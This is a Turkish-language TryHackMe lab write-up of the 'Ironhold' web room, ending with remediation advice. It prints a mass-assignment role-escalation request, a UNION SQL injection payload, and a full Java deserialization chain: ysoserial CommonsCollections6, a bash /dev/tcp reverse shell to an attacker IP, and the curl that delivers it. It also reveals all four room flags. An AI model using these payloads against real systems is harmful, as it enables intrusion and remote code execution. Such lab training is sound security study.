# TryHackMe: Ironhold — Writeup

**Category:** Web Exploitation | **Target:** `ironhold.thm` (10.112.165.90)

Ironhold, bir hapishane yönetim sistemini simüle eden bir Spring Boot/Thymeleaf uygulaması. Senaryoya göre işten ayrılan bir çalışan, sistemin tüm kaynak kodunu sızdırmış — oda da bize bu kaynak kodunu baştan veriyor. Yani bu bir black-box değil, **source-code-assisted** bir pentest. Amaç 4 flag bulmak:

1. Officer dashboard'daki flag
2. Sitenin hiçbir sayfasının göstermediği bir staff kaydındaki flag
3. Warden'ın door-control panelindeki flag
4. Facility server'da, "kapıdan geçtikten sonra" bulunan flag

---

## 1. Kaynak Kod İncelemesi

Linklere direkt tıklamak yerine önce verilen kaynak kodu okudum. Çoğu şey işime yaramadı ama birkaç kırıntı aklımda kaldı.

**`DataSeeder.java`** içinde static staff hesapları seed ediliyordu. Dört officer hesabı (`j.reyes`, `m.chen`, `a.osei`, `l.bianchi`) aynı filler password hash'ini paylaşıyordu:



**`WebMvcConfig.java`**'da interceptor path pattern'lerini gördüm — `/admin/**` sadece `wardenInterceptor`'dan geçiyordu, yani admin paneline erişmek için `WARDEN` rolüne ihtiyacım olacaktı:



**`DataAccessConfig.java`**'da ayrıca bir `LOOKUP_USER` / `LOOKUP_PASSWORD` çifti vardı. Bu işime yaramadı (muhtemelen inmate lookup için kısıtlı yetkili ayrı bir DB hesabı) ama not aldım, önemli olabileceğini düşündüm:



---

## 2. Recon

Nmap ile klasik bir tarama attım:



```
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5
8080/tcp open  http    Apache Tomcat (language: en)
|_http-title: Ironhold Correctional | Staff Login
```

8080 portunda bir staff login ekranı karşılıyor:



`/about` ve `/status` sayfaları da `AuthInterceptor`'ın exclude path'leri arasında olduğu için login olmadan erişilebiliyordu. `/about` sayfası sistemin neyi kapsadığını özetliyordu:



Buradan not aldığım şey, Ironhold'un şunları içerdiğiydi:
- Inmate record
- Visitation scheduling
- Commissary accounts
- Internal staff messaging
- Incident reporting (Ironhold Correctional'ın idari kanadı için)

`/status` sayfası ise işletme durumunu gösteriyordu ve `/actuator` endpoint'ine bir referans vardı:



---

## 3. Initial Access — Paylaşılan Credential ile Giriş

Kaynak kodda bulduğum officer şifresiyle (`j.reyes` hesabı üzerinden) staff login'e giriş yaptım. Dört officer hesabı da aynı şifreyi kullandığından herhangi biriyle "OFFICER" rolünde içeri girmek mümkündü.

---

## 4. Flag #1 — Officer Dashboard

Admin panele direkt gitmeyi denedim ama tabii ki `403 Forbidden` aldım — yetkim yoktu. Normal akışa dönüp dashboard'a baktığımda flag zaten gözümün önündeymiş, ilk seferde gözden kaçırmıştım:



**Flag 1:** `THM{k10sk_c0nsol3_unl0ck3d}`

Not: Buradaki notice de aslında ikinci bir ipucu veriyordu — kiosk hesabının shift handover sırasında nasıl kullanıldığına dair bir hatırlatma. Operasyonel güvenlik zafiyetinin (paylaşılan kiosk/shift credential'ları) bilinçli olarak işlendiği görülüyor.

---

## 5. Privilege Escalation — Mass Assignment ile Role Yükseltme

`/profile` sayfasında full name, email ve badge number güncellenebiliyordu:



Rol bilgisinin de bir yerde (DB'de) `role` kolonu olarak tutulduğunu düşündüm ve ilk aklıma SQL injection geldi. Email alanına şunu denedim:

```
j.reyes@ironhold.example'&role=warden
```

Ama `'` ve `=` karakterleri frontend/backend tarafında filtreleniyordu. Bunun üzerine önce filtreden geçecek zararsız bir string gönderdim (`j.reyes@ironhold.examplerolewarden`), isteği Burp Suite'in Interceptor sekmesinde yakaladım ve ham request body'de bunu tekrar `j.reyes@ironhold.example'&role=warden` haline getirdim.

Sonuç: rolüm anında `WARDEN`'a yükseldi.



**Teknik not:** Bu aslında bir SQL injection değil, kaynak kodda doğrulandığı üzere bir **Mass Assignment (over-posting)** zafiyeti. `ProfileController.update()`, formda hiç gösterilmeyen `role` ve `badgeNumber` alanlarını da `@ModelAttribute Staff staff` ile request'ten doğrudan bind edip kontrolsüz kaydediyor:

```java
@PostMapping("/profile/update")
public String update(@ModelAttribute Staff staff, HttpSession session) {
    Staff current = staffRepository.findByUsername(SessionUtil.currentUsername(session));
    current.setFullName(staff.getFullName());
    current.setEmail(staff.getEmail());
    if (staff.getBadgeNumber() != null && !staff.getBadgeNumber().isBlank()) {
        current.setBadgeNumber(staff.getBadgeNumber());
    }
    if (staff.getRole() != null && !staff.getRole().isBlank()) {
        current.setRole(staff.getRole());
    }
    staffRepository.save(current);
    return "redirect:/profile";
}
```

Frontend'deki karakter filtresi sadece `email` alanını koruyordu; Burp ile ham HTTP body'sine ekstra bir `role` parametresi (HTTP Parameter Pollution) enjekte edince bu kontrol tamamen bypass edilmiş oldu.

---

## 6. Flag #3 — Warden Door Control Panel

Artık `WARDEN` rolüyle admin paneline tekrar girdim ve `Cellblock Door Control` sayfasında flag'i buldum:



**Flag 3:** `THM{w4rd3n_b4dg3_f0rg3d}`

(Flag sırasını atladım — çok hızlı ilerleyince 1. ve 2. flag'leri gözden kaçırmıştım, geri dönüp onları da tamamladım.)

---

## 7. Flag #2 — Inmates Arama Üzerinden SQL Injection

Sorulardan ikincisi şöyleydi: *"What is the flag in the staff record that no page on the site will show you?"* Bu ifade bana yine bir injection noktası olduğunu düşündürdü. `Inmates` sekmesindeki arama kutusunu hedef aldım:



İlk denemelerimde tek tırnak gönderince uygulama patladı (500 Internal Server Error), bu da query'nin sanitize edilmediğinin kanıtıydı:



Kaynak kodda `InmateController.search()` metodunun `q` parametresini doğrudan string concat ile sorguya eklediğini zaten biliyordum:

```java
String sql = "SELECT id, name, block FROM inmates WHERE name = '" + q + "'";
```

Klasik bir **UNION-based SQL Injection**. Hedefteki kolon sayısını (`id, name, block` → 3 kolon) ve "staff record"un aslında `case_files` tablosunda olabileceğini kaynak koddaki `CaseFile.java`'da gördüm:

```java
@Entity
@Table(name = "case_files")
public class CaseFile {
```



Bu bilgiyle denediğim UNION payload'ı:

```
--data-urlencode "q=' UNION SELECT id, summary, status FROM case_files WHERE '1'='1"
```

Sonuç, `inmates/search` sayfasında doğrudan göründü:



**Flag 2:** `THM{c4s3_f1l3_pull3d_via_uni0n}`

Bu flag gerçekten de uygulamanın hiçbir sayfasında normal şartlarda görüntülenmiyordu — `case_files` tablosuna erişimin tek yolu bu SQL injection'dı.

---

## 8. Flag #4 — Insecure Deserialization ile RCE

Son flag en çok zorlandığım kısımdı. `/admin/import` endpoint'ine bakınca kaynak kodda şunu gördüm:

```java
@PostMapping(value = "/admin/import", consumes = MediaType.ALL_VALUE)
@ResponseBody
public ResponseEntity<String> importData(@RequestBody String body) {
    byte[] decoded = Base64.getDecoder().decode(body.trim());
    try (ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(decoded))) {
        Object restored = ois.readObject();
        return ResponseEntity.ok("Batch accepted: " + restored.getClass().getSimpleName());
    }
    ...
}
```

Base64 ile gelen veri doğrudan `ObjectInputStream.readObject()` ile deserialize ediliyordu — klasik bir **Java Insecure Deserialization** zafiyeti. Bunu rastgele denemedim; `pom.xml`'i kontrol ettiğimde `commons-collections` kütüphanesinin bilinçli olarak eklendiğini ve versiyonunun `[3.2, 3.2.2)` aralığında sabitlendiğini gördüm — bu da bilinen bir **ysoserial gadget chain**'in (CommonsCollections) kullanılabileceğinin açık bir işaretiydi:



Burada Kali'de ysoserial'ı derlemeye/indirmeye çalışırken epey vakit kaybettim, sonunda terminal yerine tarayıcıdan GitHub'a gidip `ysoserial-all.jar`'ı indirdim. Sonrasında adımlar:

```bash
# Dinleyiciyi aç
nc -lvnp 4444

# Reverse shell komutunu base64'e çevir
echo -n 'bash -i >& /dev/tcp/192.168.133.56/4444 0>&1' | base64 -w0
# -> YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzMy41Ni80NDQ0IDA+JjE=

# ysoserial ile CommonsCollections6 gadget zinciriyle payload üret
java --add-opens=java.base/java.util=ALL-UNNAMED \
     --add-opens=java.base/java.lang=ALL-UNNAMED \
     --add-opens=java.base/java.lang.reflect=ALL-UNNAMED \
     -jar ysoserial-all.jar CommonsCollections6 \
     'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzMy41Ni80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}' > payload.bin

# Payload'ı base64'e çevirip endpoint'e gönder
base64 -w0 payload.bin > payload.b64
curl -s -b cookies.txt -X POST http://10.112.165.90:8080/admin/import \
     -H "Content-Type: text/plain" --data-binary @payload.b64
```



İstek `Batch accepted: HashSet` döndürdü ve netcat tarafında bağlantı geldi:

```
listening on [any] 4444 ...
connect to [192.168.133.56] from (UNKNOWN) [10.112.165.90] 55554
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
appuser@f62a3262ffed:/app$
```

Shell'e düştükten sonra basit bir dosya enumerasyonuyla flag'i buldum:

```bash
appuser@f62a3262ffed:/app$ find / -iname "*flag*" 2>/dev/null
...
/opt/ironhold/flag.txt

appuser@f62a3262ffed:/app$ cat /opt/ironhold/flag.txt
THM{0v3r_th3_w4ll_4nd_g0n3}
```



**Flag 4:** `THM{0v3r_th3_w4ll_4nd_g0n3}`

---

## Sonuç ve Çıkarımlar

| # | Flag | Zafiyet Sınıfı |
|---|------|-----------------|
| 1 | `THM{k10sk_c0nsol3_unl0ck3d}` | Hardcoded / Shared Credentials (kaynak kod sızıntısı + zayıf operasyonel güvenlik) |
| 2 | `THM{c4s3_f1l3_pull3d_via_uni0n}` | UNION-based SQL Injection |
| 3 | `THM{w4rd3n_b4dg3_f0rg3d}` | Mass Assignment / HTTP Parameter Pollution → Privilege Escalation |
| 4 | `THM{0v3r_th3_w4ll_4nd_g0n3}` | Insecure Deserialization (Java `ObjectInputStream`) → Remote Code Execution |

Bu oda bana özellikle şunu gösterdi: **kaynak kod erişimi olduğunda ilk iş, zafiyeti ekranda "arayıp bulmak" değil, kontrolcü (controller) katmanındaki her endpoint'i okumak olmalı.** Mass assignment zafiyetini ilk başta SQL injection sandım; kaynak kodu doğru okuyunca gerçek kök nedenin ne olduğunu anladım — bu da bir pentest raporunda zafiyeti **doğru sınıflandırmanın** neden önemli olduğunu bir kez daha gösterdi.

Remediation açısından kısaca:
- `@ModelAttribute` ile bind edilen DTO'larda hassas alanlar (`role`, `badgeNumber`) asla doğrudan request'ten set edilmemeli; ayrı bir "update" DTO'su kullanılmalı.
- Tüm SQL sorguları parametreli (`PreparedStatement`) olmalı, string concat kesinlikle kullanılmamalı.
- Kullanıcıdan gelen hiçbir veri `ObjectInputStream.readObject()` ile deserialize edilmemeli; gerekiyorsa JSON gibi güvenli, tip kısıtlı formatlar tercih edilmeli.
- Staff hesapları için paylaşılan/varsayılan şifreler kaldırılmalı, her hesaba bireysel ve rastgele üretilmiş kimlik bilgisi atanmalı.
